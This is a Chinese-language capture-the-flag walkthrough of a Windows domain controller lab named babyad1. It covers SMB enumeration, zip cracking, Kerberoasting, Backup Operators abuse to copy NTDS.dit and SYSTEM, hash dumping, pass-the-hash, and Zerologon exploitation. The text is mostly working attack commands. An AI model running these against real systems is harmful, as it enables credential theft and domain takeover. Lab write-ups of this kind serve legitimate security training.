## 靶机信息

靶机名称：babyad1  
靶机作者：111  
靶机类型：Windows  
难度：baby  
来源：MazeSec/QQ公开群 321948805  
官网：https://maze-sec.com/  

QQ闪传下载链接：https://qfile.qq.com/q/tPrauBOy9a ，2027年5月20日过期。

## 信息收集

靶机改了注册表，登录界面显示 ip 地址，直接扫描端口。



靶机开放了 53、88、135、139、389、445、464、593、636、3268、3269、5985 端口，扫描到域名`Domain: babyad1.dsz`，主机名`DC`。



测试 smb、ldap匿名登录，发现 smb 可以匿名登录，ldap 失败。

```bash
smbclient -L //192.168.6.102/ -N
```



```bash
ldapsearch -x -H ldap://192.168.6.102 -b "dc=babyad1,dc=dsz" -s sub "(objectClass=user)"
```



## 压缩密码爆破

smb 匿名登录下载共享文件readme.txt及backup.zip。



readme.txt 内容如下，提示压缩包存在密码。

```txt
┌──(root㉿kali)-[/tmp]
└─# cat readme.txt
# 运维临时备忘 (内部)

关于近期域控安全排查的通知：
1. 我们的自动化审计脚本发现部分服务账号密码存在弱口令风险，正在逐步重置。
2. 请各位运维人员注意，当前域环境已启用账户锁定策略（连续 5 次失败将锁定 30 分钟），排查密码时切勿使用自动化脚本进行在线喷洒（Spray），请通过合法途径离线验证或联系账号负责人。
3. 这里的 backup.zip 是上周备份的测试账号清单和部分配置文件，已加密。密码我已交接给新的负责人，如有需要请向他索要，不要尝试暴力破解。
4. 交接期间，请勿随意删改域内现有账号和组策略。 
```

把 zip 的加密信息提取成 john 能识别的哈希格式，交给 john 进行爆破。

```bash
zip2john backup.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

拿到压缩包密码`qaz123`，解压。



zip 用了 AES 加密 + 方法 99，unzip 不支持这种压缩方法，使用 7z 解压，拿到域用户test的凭证`test : Baby@2026`。



## ldap枚举

使用 netexec 或 impacket-GetADUsers 枚举域用户。

```bash
# netexec枚举域用户
netexec smb 192.168.6.102 -u test -p 'Baby@2026' -d babyad1.dsz --users
# GetADUsers枚举域用户
impacket-GetADUsers babyad1.dsz/test:'Baby@2026' -dc-ip 192.168.6.102 -all
```


发现一个非系统内置账户 ll104567，枚举该域用户相关信息。

```bash
netexec ldap 192.168.6.102 -u test -p 'Baby@2026' -d babyad1.dsz --query "(sAMAccountName=ll104567)" "*"
```



其中三条关键信息，ll104567 是 Backup Operators 组和 Remote Management Users 组的成员，ll104567 注册了SPN HTTP 服务主体名为 HTTP/DC.babyad1.dsz。

Remote Management Users 组可以远程管理获取一个Powershell连接。Backup Operators 组可以备份和还原文件，备份导出获取域控哈希。普通用户注册服务主体，会使用自己的密码哈希加密票据，可以进行 Kerberos 离线密码爆破。可以尝试 Kerberoasting 攻击。

```txt
LDAP        192.168.6.102   389    DC               memberOf             CN=Remote Management Users,CN=Builtin,DC=babyad1,DC=dsz
LDAP        192.168.6.102   389    DC                                    CN=Backup Operators,CN=Builtin,DC=babyad1,DC=dsz
LDAP        192.168.6.102   389    DC               servicePrincipalName HTTP/DC.babyad1.dsz
LDAP        192.168.6.102   389    DC               
```

## Kerberoasting攻击

Kerberos 认证中，任何已认证的域用户都可以向 KDC 请求任意 SPN 对应的服务票据（TGS）。KDC 用该 SPN 所属账户的密码哈希加密 TGS 后返回。由于加密密钥直接派生自账户密码，攻击者拿到 TGS 后可离线用字典爆破出该账户的明文密码。这个过程不需要访问目标服务，也不需要知道账户密码，且不会产生登录失败记录，隐蔽性较高。

使用 test 用户凭据向 KDC 请求 ll104567 的 TGS：

```bash
impacket-GetUserSPNs babyad1.dsz/test:'Baby@2026' -dc-ip 192.168.6.102 -request -outputfile kerb.txt
```



john 爆破票据哈希，拿到 ll104567 的密码`ll104567 : !QAZ2wsx`，验证密码。

```bash
netexec smb 192.168.6.102 -u ll104567 -p '!QAZ2wsx' -d babyad1.dsz
```



## 域控提权

ll104567 是 Backup Operators 组和 Remote Management Users 组的成员，可以远程登录、备份和还原文件，利用 Windows 自带的 diskshadow 创建卷影快照，导出域控核心数据库，获取域控哈希。

winrm 远程登录

```bash
evil-winrm -i 192.168.6.102 -u ll104567 -p '!QAZ2wsx'
```

ll104567 在备份操作组，可以直接越权读flag。

```powershell
# robocopy 的语法：robocopy <源目录> <目标目录> <文件名>
robocopy /b C:\Users\Administrator\Desktop C:\Users\ll104567\Documents root.txt
```



[卷影复制服务](https://learn.microsoft.com/zh-cn/windows-server/storage/file-server/volume-shadow-copy-service)（Volume Shadow Copy Service，简称 VSS）是微软 Windows 操作系统提供的一项核心技术，用于在文件或卷正在被使用时为它们创建“时间点一致性快照”（Shadow Copies）。它通过底层的文件系统（NTFS）和 VSS 服务，在不影响当前系统运行的前提下，瞬间冻结磁盘在那一毫秒的状态，并生成一个只读的、静态的快照。然后把这个快照挂载到另一个盘符（比如你的 Z: 盘）。因为快照是静态的，没有任何进程在锁定它，此时可以随意复制里面的任何文件了，安全地进行数据备份和快照，无需强行关闭服务或让用户下线。

由于NTDS.dit是Active Directory 的数据库，只要域控在运行，这个文件就被 lsass.exe 独占锁定，即使有管理员权限也无法直接复制。SYSTEM 和 SAM 注册表文件被系统内核锁定。我们拥有 Backup Operators 组的权限，可以借助卷影复制服务备份域控文件，

重心应该放在备份域控文件，获取域控哈希。生成一个供 diskshadow 读取的文本配置文件（backup.txt），用来指导它如何创建并挂载一个 C 盘的卷影副本。

```powershell
cmd /c "echo set context persistent nowriters > C:\windows\temp\backup.txt"
cmd /c "echo set metadata C:\windows\temp\metadata.cab >> C:\windows\temp\backup.txt"
cmd /c "echo add volume c: alias mydrive >> C:\windows\temp\backup.txt"
cmd /c "echo create >> C:\windows\temp\backup.txt"
cmd /c "echo expose %mydrive% z: >> C:\windows\temp\backup.txt"
```

验证内容

```powershell
Get-Content C:\windows\temp\backup.txt
```

执行diskshadow

```powershell
diskshadow /s C:\windows\temp\backup.txt
```



利用备份特权复制 NTDS.dit 和 SYSTEM。

```powershell
robocopy /b Z:\Windows\NTDS C:\windows\temp NTDS.dit
reg save HKLM\SYSTEM C:\windows\temp\SYSTEM
```

kali 下载 NTDS.dit 和 SYSTEM 文件，使用 secretsdump.py 导出域控哈希。

```bash
download C:/windows/temp/NTDS.dit
download C:/windows/temp/SYSTEM
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```





哈希传递（Pass-the-Hash, PtH）的原理在于，Windows 的 NTLM 认证协议允许直接使用密码的哈希值（而非明文密码）作为身份验证的凭据。攻击者一旦通过入侵手段（如从内存中提取）获取了某个账户的 NTLM 哈希，就可以跳过需要输入明文密码的步骤，直接将这个哈希值“传递”给目标系统进行认证，从而冒充该用户访问网络中的其他资源。其核心在于系统认证时只校验哈希值是否正确，而不关心这个哈希值是通过用户输入密码实时计算出来的，还是攻击者直接窃取并重放的，这使得哈希值在认证意义上等同于密码本身。


拿到域管哈希后，通过哈希传递登录域控。

```bash
evil-winrm -i 192.168.6.102 -u Administrator -H '898b602f0f94e5e9616f8b749136c69a'
```



收尾删除创建的卷影副本。

```powershell
vssadmin delete shadows /all /quiet
```

## CVE提权

靶机基于 windows server 2019，在构建时没有安装最新的安全补丁，能够通过CVE漏洞提权。

使用 nxc 模块检测是否存在漏洞。

```bash
# zerologon 域控提权漏洞 CVE-2020-1472
nxc smb $ip -u 'll104567' -p '!QAZ2wsx' -M zerologon
# nopac，域成员冒充域控漏洞检测
nxc smb $ip -u 'll104567' -p '!QAZ2wsx' -M nopac
```

同时存在 zerologon 域控提权漏洞 CVE-2020-1472 和 nopac 域成员冒充域控漏洞。



### zerologon

Zerologon（CVE-2020-1472）是 Windows Netlogon 远程协议（MS-NRPC）中的一个高危身份验证绕过漏洞。攻击者无需凭据即可冒充域控（DC）身份，并将其机器账户密码置空，从而获取域管理员权限。

Zerologon（CVE-2020-1472）是 Windows Netlogon 协议（MS-NRPC）中的高危认证绕过漏洞。Netlogon 握手使用 AES-CFB8，若 IV 固定为全零且 ClientChallenge 也为全零，则每步 AES 输出首字节恰为 0x00 时整条 ClientCredential 全为零，概率 1/256；借助 NetrServerAuthenticate3 无限重试，攻击者无需凭据即可冒充域控机器账户通过认证，并以 NegotiateFlags=0x212fffff 关闭签名/封印。随后调用 NetrServerPasswordSet2 将 DC密码置空（NThash变为31d6cfe0d16ae931b73c59d7e0c089c0）进而以 DC 身份发起DRSUAPI DCSync 导出全域凭据；利用后必须还原原始机器密码，否则会造成复制/安全通道异常甚至脱域。

利用 Zerologon 漏洞提权域控，获取域管凭据，项目地址 https://github.com/dirkjanm/CVE-2020-1472

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472
# 前面可以知道主机名是 DC
python3 cve-2020-1472-exploit.py DC 192.168.6.240 
impacket-secretsdump -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'babyad1.dsz/DC$@192.168.6.240'
```

